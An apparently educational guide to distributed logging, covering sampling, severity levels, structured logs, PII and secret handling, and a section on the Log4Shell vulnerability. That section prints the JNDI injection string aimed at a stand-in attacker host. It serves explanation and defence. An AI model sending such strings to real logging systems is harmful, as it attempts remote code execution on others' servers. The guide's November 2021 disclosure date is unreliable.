

# Introduction to Distributed Logging

> Tracing events across thousands of microservice nodes — structuring logs efficiently, managing massive volumes through sampling and categorization, and implementing secure logging practices.

---

## Table of Contents

1. [Logging in a Distributed System](#1-logging-in-a-distributed-system)
2. [Restraining Log Size](#2-restraining-log-size)
   - [Sampling](#sampling)
   - [Categorization](#categorization)
3. [Structuring Logs](#3-structuring-logs)
4. [Best Practices: Points to Consider While Logging](#4-best-practices-points-to-consider-while-logging)
5. [Challenges of Traditional Logging in Distributed Systems](#5-challenges-of-traditional-logging-in-distributed-systems)
6. [Vulnerability in Logging Infrastructure: Log4Shell](#6-vulnerability-in-logging-infrastructure-log4shell)
7. [Summary](#7-summary)

---

## 1. Logging in a Distributed System

### Monolithic vs Microservices Logging

```
Monolithic architecture:
  +---------------------------+
  |    Single Application     |
  |  All logs in one place    |
  |  Single log file / stream |
  +---------------------------+
  Debugging: straightforward
  Log location: known and fixed


Microservices architecture:
  [Auth Service]      [Order Service]     [Payment Service]
  Node 1, 2, ...N    Node 1, 2, ...N     Node 1, 2, ...N
       |                   |                    |
  Local logs          Local logs           Local logs
  (scattered)         (scattered)          (scattered)

  Debugging: requires correlating logs from all services + all nodes
  Log location: distributed across potentially thousands of nodes
```


### Why Distributed Logging is Hard

A single microservice may run on **thousands of instances**. A single user request may touch **dozens of services**. Services are **interdependent** — a failure in one cascades to others.

```
User places an order:

  [API Gateway]
       |
  [Auth Service]          <- validates token
       |
  [Inventory Service]     <- checks stock
       |
  [Payment Service]       <- charges card
       |
  [Order Service]         <- creates order record
       |
  [Notification Service]  <- sends confirmation email
       |
  [Warehouse Service]     <- triggers fulfillment

Payment fails. Which service failed? Which node? At what step?

Without centralized logging + request tracing:
  -> Must SSH into potentially thousands of nodes
  -> Manually search local log files
  -> Reconstruct the event sequence manually
  -> Hours or days to diagnose

With centralized logging + trace IDs:
  -> Single query: trace_id=XYZ level=ERROR
  -> Instant answer: PaymentService Node 47 at 14:32:03 UTC
```

### The Core Problems

| Problem | Cause | Impact |
|---|---|---|
| Logs are scattered | Each node writes to local storage | No single place to search |
| Events are interleaved | Concurrent requests from thousands of users | Can't reconstruct a single request's flow |
| Cascade failures | Services depend on each other | One failure generates logs across many services |
| No end-to-end visibility | No request correlation by default | Root cause identification is extremely difficult |

---

## 2. Restraining Log Size

Log volume grows **proportionally with traffic** — and modern systems handle massive traffic. A system processing hundreds of concurrent messages generates enormous amounts of log data.

```
Example scale:
  1,000 requests/second
  Each request touches 8 services
  Each service logs 5 events per request

  Total log events/second = 1,000 x 8 x 5 = 40,000 events/second
  Total log events/day    = 40,000 x 86,400 = ~3.5 billion events/day

  At 200 bytes per log entry:
  Storage per day = 3.5 billion x 200 bytes = ~700 GB/day
```

Two techniques manage this: **sampling** and **categorization**.

---

### Sampling

**Sampling** records a representative subset of events rather than every event.

```
Without sampling:
  1,000,000 user comments posted per hour
  -> Log all 1,000,000 events
  -> 1,000,000 log entries per hour for one event type alone

With sampling (1% sample rate):
  -> Log 10,000 events per hour
  -> Enough to monitor trends, error rates, system health
  -> 99% reduction in log volume for this event type
```

A **sampling service** captures a configurable percentage of events. The sample rate can be tuned based on:
- Traffic volume
- Storage budget
- Criticality of the event type

```
Configurable sampling by event type:

  User comments:       1% sample rate   (high volume, low criticality)
  Failed logins:       10% sample rate  (security relevant)
  Payment events:      100% sample rate (must never miss)
  Health check pings:  0.1% sample rate (extremely high volume, low value)
```

> At hyperscale (e.g., Facebook logging billions of events per second), logging everything is physically impossible. An appropriate sampling strategy is necessary to capture a representative dataset without overwhelming storage and processing infrastructure.

---

### When Sampling Does NOT Work

> **Q: What is a scenario where the sampling approach will not work?**

**A:** Any system where **missing even a single log entry breaks end-to-end traceability** — particularly financial and compliance-critical systems.

**Example: ATM Transaction Processing**

```
A single ATM withdrawal touches multiple services:

  [Card Validation]
       |
  [Expiration Check]
       |
  [Balance Verification]
       |
  [Fraud Detection]
       |
  [Transaction Authorization]
       |
  [Cash Dispense Command]
       |
  [Account Debit]
       |
  [Receipt Generation]

If sampling drops the "Fraud Detection" log entry:
  -> Cannot prove fraud detection ran for this transaction
  -> Regulatory audit fails: "show us the fraud check for transaction #X"
  -> Cannot reconstruct the exact flow if a dispute arises
  -> Debugging errors becomes impossible: unknown which step succeeded/failed
```

**Other scenarios where sampling fails:**

| Scenario | Why 100% logging is required |
|---|---|
| Financial transactions | Every event is auditable by regulation (PCI-DSS) |
| Healthcare records access | HIPAA requires complete access audit trails |
| Security breach investigation | Any missing log = gap in the forensic timeline |
| Legal holds and compliance | Courts require complete, unaltered records |
| Low-traffic but critical systems | With few events, sampling may miss the only error occurrence |

**Rule of thumb:** If the consequence of a missing log entry is a compliance violation, a financial loss, or an undiagnosable failure — do not sample. Log everything and manage volume through other means (compression, tiered storage, retention policies).

---

### Categorization

Standard logging libraries categorize messages by **severity level**, allowing operators to filter what gets recorded and what gets ignored.

#### Severity Levels

| Level | Purpose | Example |
|---|---|---|
| `DEBUG` | Detailed diagnostics for developers | `"Cache lookup for key user_1234: miss"` |
| `INFO` | Confirmation of expected behavior | `"Order #5678 created successfully"` |
| `WARNING` | Potential problem, system still functional | `"Response time 480ms, approaching 500ms threshold"` |
| `ERROR` | Serious issue, specific function failed | `"Payment gateway timeout after 5s for order #5678"` |
| `FATAL/CRITICAL` | Severe error, application is crashing | `"Database connection pool exhausted, service shutting down"` |

#### When to Use Each Level

```
Development environment:
  Log: DEBUG + INFO + WARNING + ERROR + FATAL
  Purpose: Maximum visibility for debugging

Production environment (normal operation):
  Log: WARNING + ERROR + FATAL
  Purpose: Reduce noise, focus on actionable events
  Volume reduction: ~90% compared to logging all levels

Production environment (active incident):
  Log: DEBUG + INFO + WARNING + ERROR + FATAL
  Purpose: Full visibility to diagnose the ongoing issue
  Temporary: revert to WARNING+ after incident resolution
```

#### Combining Sampling and Categorization

```
Optimized logging strategy:

  FATAL:    100% logged, no sampling (must never miss a crash)
  ERROR:    100% logged, no sampling (every error is actionable)
  WARNING:  10% sampled  (trend monitoring, not every instance)
  INFO:     1% sampled   (health checks, routine operations)
  DEBUG:    Disabled in production (re-enabled during incidents only)
```

---

## 3. Structuring Logs

Applications can log raw text, binary, or structured formats. Enforcing **consistent structure** dramatically improves log usability.

### Unstructured vs Structured

```
Unstructured (raw text):
  "Error processing order 1234 for user 5678, payment failed at checkout stage"

  Problems:
  - Regex required to extract fields
  - Field names inconsistent across services
  - Hard to query: "find all orders where payment failed"
  - Hard to aggregate: "count payment failures by hour"


Structured (JSON):
  {
    "timestamp": "2024-03-15T14:32:01Z",
    "level": "ERROR",
    "service": "order-service",
    "node_id": "node-47",
    "trace_id": "abc123xyz",
    "event": "payment_failed",
    "order_id": "1234",
    "user_id": "5678",
    "stage": "checkout",
    "error": "gateway_timeout",
    "duration_ms": 5003
  }

  Benefits:
  - Each field is directly queryable
  - Consistent schema across all services
  - Aggregation is trivial: GROUP BY event, COUNT BY hour
  - Alerting is precise: trigger when error="gateway_timeout" AND duration_ms > 5000
```

### Benefits of Structured Logging

| Benefit | Description |
|---|---|
| **Interoperability** | Any log consumer (Elasticsearch, Splunk, DataDog) can parse the same format |
| **Queryability** | Filter by any field: `level=ERROR AND service=payment AND last_1h` |
| **Aggregation** | Count, group, and summarize without text parsing |
| **Alerting** | Set precise thresholds on specific fields |
| **Correlation** | Join logs across services using `trace_id` or `request_id` |

> For a deep dive into structured log querying in distributed systems, see the PhD thesis by Ryan Braud: *"Query-based Debugging of Distributed Systems."*

---

## 4. Best Practices: Points to Consider While Logging

Logging must balance **utility**, **security**, and **performance**. The following practices are essential in any production logging system.

---

### Practice 1: Protect PII (Personally Identifiable Information)

```
NEVER log:
  - Full names
  - Email addresses
  - Home addresses
  - Phone numbers
  - Date of birth
  - Government IDs (SSN, passport numbers)

Instead:
  Log user_id (an internal identifier, not a real-world identifier)
  user_id=1234 can be correlated to a real user only by authorized personnel
  through a separate, access-controlled lookup

Bad:   "Login attempt for alice@example.com from 192.168.1.10"
Good:  "Login attempt for user_id=1234 from ip_hash=a3f8c2..."
```

Why this matters: Log files are often shared widely — across teams, exported to third-party tools, included in bug reports. A PII leak in logs can violate GDPR, CCPA, HIPAA, and expose the organization to significant legal liability.

---

### Practice 2: Secure Secrets and Credentials

```
NEVER log:
  - Passwords (even hashed)
  - Credit card numbers
  - Bank account numbers
  - API keys and tokens
  - Session tokens
  - Private keys or certificates

If logging financial data is required:
  Log only masked/encrypted versions:
  card_number=4111111111111111  ->  card_number=****-****-****-1111
  cvv=123                       ->  cvv=[REDACTED]
```

---

### Practice 3: Optimize Performance

Logging is an **I/O-heavy operation** — every log write hits disk or network. Excessive logging degrades application performance.

```
Performance anti-patterns:
  - Logging inside tight loops (millions of iterations)
  - Logging large objects or entire request/response payloads
  - Synchronous logging on the critical path (blocks the main thread)
  - Logging at DEBUG level in production (massive volume, no benefit)

Best practices:
  - Use asynchronous logging (write to a buffer, flush in background)
  - Log only what is needed for diagnosis (targeted, not exhaustive)
  - Apply severity filters: WARNING and above in production
  - Use log sampling for high-volume, low-criticality events
```

---

### Practice 4: Ensure Logging Security

Logs reveal application internals — internal endpoints, service architecture, error messages that hint at vulnerabilities. The logging mechanism itself must be secured.

```
Risks if logging is unsecured:
  - Log injection: attacker injects fake log entries to mislead operators
  - Unauthorized log access: attacker reads logs to map internal architecture
  - Log tampering: attacker modifies or deletes logs to cover tracks
  - Logging framework exploits: vulnerabilities in the logging library itself
    (e.g., Log4Shell — see Section 6)

Mitigations:
  - Sanitize all external input before logging
  - Enforce access controls on log storage (RBAC)
  - Use append-only / immutable log storage
  - Keep logging libraries updated and patched
  - Encrypt logs at rest and in transit
```

---

### Best Practices Summary

| Practice | What to Do | What to Avoid |
|---|---|---|
| Protect PII | Log user_id, not names/emails/addresses | Never log real-world identifiers |
| Secure secrets | Mask or redact sensitive values | Never log passwords, card numbers, tokens |
| Optimize performance | Async logging, severity filters, sampling | Logging in tight loops, DEBUG in production |
| Ensure security | Sanitize input, RBAC, encryption, patching | Unpatched libraries, open log access |

---

## 5. Challenges of Traditional Logging in Distributed Systems

> **Q: What are the challenges of using traditional logging in a distributed system?**

Traditional logging was designed for single-process, single-machine applications. Applying it directly to distributed systems reveals fundamental mismatches.

---

### Challenge 1: Log Fragmentation

```
Traditional: One application -> one log file -> one place to look

Distributed: One request -> 8 services -> 8 services each on 100 nodes
             -> 800 potential log locations for a single request

  Finding logs for one user's failed checkout:
  -> Which of the 800 nodes has the relevant entry?
  -> You don't know until you check all of them.
```

**Solution needed:** Centralized log aggregation — all nodes ship logs to one searchable system.

---

### Challenge 2: No Request Correlation

```
Traditional: One process, sequential execution
  log("step 1"), log("step 2"), log("step 3")
  -> Naturally ordered, trivially correlated

Distributed: Thousands of requests processed concurrently
  Node 1 log: "step 1 for request A"
  Node 2 log: "step 1 for request B"
  Node 1 log: "step 2 for request B"  <- interleaved!
  Node 2 log: "step 2 for request A"

  Reconstructing request A's flow from this interleaved stream is impossible
  without a shared correlation identifier.
```

**Solution needed:** Distributed tracing with `trace_id` / `request_id` propagated across all services.

---

### Challenge 3: Clock Skew

```
Traditional: One machine, one clock -> timestamps are reliable

Distributed: Hundreds of machines, each with its own clock
  Node 1 clock: 14:32:01.000
  Node 2 clock: 14:32:00.987  <- 13ms behind
  Node 3 clock: 14:32:01.042  <- 42ms ahead

  Event sequence based on timestamps may be WRONG:
  Node 3 logs an event at 14:32:01.042
  Node 1 logs the CAUSE of that event at 14:32:01.000

  Raw timestamps suggest Node 3's event came AFTER Node 1's.
  But Node 3's clock is ahead -> the actual order may be reversed.
```

**Solution needed:** Logical clocks (Lamport timestamps, vector clocks) or NTP synchronization to establish reliable event ordering.

---

### Challenge 4: Massive Log Volume

```
Traditional: One process, limited throughput -> manageable log volume

Distributed: Thousands of nodes, each logging independently
  -> Gigabytes to terabytes of logs per day
  -> Storage costs become significant
  -> Search across unindexed log files takes hours

  A grep across 10 TB of log files is not a viable incident response tool.
```

**Solution needed:** Structured logs with indexes, log aggregation pipelines, sampling strategies, and tiered storage (hot/warm/cold based on age).

---

### Challenge 5: Partial Failures and Missing Logs

```
Traditional: If the process crashes, it's clear -> logging stops

Distributed: Node crashes while processing a request
  -> Some services logged their steps
  -> The crashed node's logs may be lost (if not shipped before crash)
  -> The request appears to have partially succeeded

  Debugging a partial failure without complete logs is extremely difficult.
  You can see some steps but not others.
```

**Solution needed:** Durable log shipping — logs written to local buffer and asynchronously shipped to centralized storage before any node-local failure can cause loss.

---

### Challenges Summary

| Challenge | Root Cause | Solution |
|---|---|---|
| Log fragmentation | Logs spread across thousands of nodes | Centralized log aggregation |
| No request correlation | Concurrent requests interleave in logs | Distributed tracing with trace IDs |
| Clock skew | Each node has its own clock | Logical clocks, NTP synchronization |
| Massive log volume | Many nodes, high traffic | Sampling, categorization, indexing |
| Missing logs on failure | Node crash before log is shipped | Durable async log shipping to central store |

---

## 6. Vulnerability in Logging Infrastructure: Log4Shell

### What Happened

In **November 2021**, a critical zero-day vulnerability — **Log4Shell (CVE-2021-44228)** — was disclosed in **Log4j**, one of the most widely used Java logging frameworks.

| Detail | Value |
|---|---|
| CVE | CVE-2021-44228 |
| Affected library | Apache Log4j 2 |
| CVSS Score | **10.0 / 10.0** (maximum possible severity) |
| Vulnerability type | Remote Code Execution (RCE) |
| Disclosure date | November 2021 |

---

### How It Worked

```
Log4j supported a feature called JNDI lookup — it could evaluate expressions
embedded in log messages at runtime.

Normal log call:
  logger.info("User logged in: " + username)

Attacker-controlled username:
  username = "${jndi:ldap://attacker.com/exploit}"

What Log4j did:
  1. Received the log message
  2. Detected the ${...} expression
  3. Made an outbound LDAP request to attacker.com
  4. Downloaded and EXECUTED arbitrary code from attacker's server

Result:
  Complete remote takeover of the server running Log4j
  No authentication required
  Exploitable by any user who could get their input logged
```

---

### Why It Was So Severe

```
Affected systems: Hundreds of millions of devices and services
  - Any Java application using Log4j 2.x
  - Cloud services (AWS, Azure, Google Cloud had affected components)
  - Enterprise software (VMware, Cisco, many others)
  - Games (Minecraft servers were early targets)

Attack vector: Trivially easy
  - Attacker just needs to get a malicious string logged
  - Login forms, search bars, User-Agent headers, X-Forwarded-For headers...
  - Any input field that ends up in a log was a potential attack surface
```

---

### Lessons for Logging System Design

This incident highlights three essential principles:

**1. Never trust logging framework features blindly**
```
Log4j's JNDI lookup was a convenience feature that became a critical vulnerability.
Audit what your logging framework does with log messages.
Disable features (like expression evaluation) that are not needed.
```

**2. Manage third-party dependencies actively**
```
Log4Shell affected systems that hadn't updated Log4j in years.
Best practices:
  - Maintain an up-to-date inventory of all third-party libraries (SBOM)
  - Subscribe to security advisories for all dependencies
  - Have a rapid patching process for critical vulnerabilities
  - Use dependency scanning in CI/CD pipelines
```

**3. Sanitize all input before it reaches the logger**
```
The attack required attacker-controlled input to be logged.
If input had been sanitized before logging:
  "${jndi:ldap://attacker.com/exploit}" -> "[SANITIZED]"
The vulnerability would have been unexploitable.

Defense in depth:
  Even if the logging library has a vulnerability,
  sanitizing input removes the attacker's ability to exploit it.
```

---

## 7. Summary

```
DISTRIBUTED LOGGING CORE CHALLENGES:
  - Logs scattered across thousands of nodes
  - No natural request correlation in concurrent systems
  - Clock skew makes timestamp ordering unreliable
  - Massive volume makes storage and search impractical
  - Node failures can cause log loss before shipping

VOLUME MANAGEMENT:
  Sampling:
    - Record a configurable % of events
    - Works for: social activity, health checks, routine events
    - Does NOT work for: financial transactions, compliance-critical flows,
                         security audit trails

  Categorization (severity levels):
    DEBUG    -> development and active incident debugging only
    INFO     -> low-volume confirmation events
    WARNING  -> potential problems worth monitoring
    ERROR    -> actionable failures (always log)
    FATAL    -> crashes (always log)

    Production default: WARNING and above

STRUCTURING LOGS:
  Enforce JSON or consistent schema across all services
  Enables: querying, aggregation, alerting, cross-service correlation

LOGGING BEST PRACTICES:
  - Never log PII (names, emails, addresses)
  - Never log secrets (passwords, card numbers, tokens)
  - Use async logging to avoid I/O bottlenecks
  - Secure the logging pipeline (access control, encryption, sanitization)
  - Keep logging libraries patched (see: Log4Shell)

LOG4SHELL LESSON:
  A widely used logging library became a CVSS 10.0 RCE vulnerability.
  Logging infrastructure is attack surface.
  Patch dependencies, sanitize input, audit library features.
```

---

